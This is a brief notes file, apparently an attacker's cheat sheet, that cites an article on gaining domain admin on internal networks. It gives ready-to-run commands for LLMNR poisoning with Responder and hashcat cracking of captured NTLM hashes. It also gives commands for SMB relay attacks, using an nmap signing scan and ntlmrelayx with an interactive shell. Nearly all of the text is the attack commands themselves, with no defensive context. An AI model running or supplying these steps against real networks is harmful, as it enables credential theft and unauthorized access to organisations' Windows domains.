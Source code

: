 https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa
1. LLMNR Poisoning
```
sudo ./Responder.py -I eth0 -rdwv
hashcat -m 5600 ntlmhash.txt ../../rockyou.txt/rockyou.txt --force
```

2. SMB relay
```
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
sudo ./Responder.py -I eth0 -rdwv
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
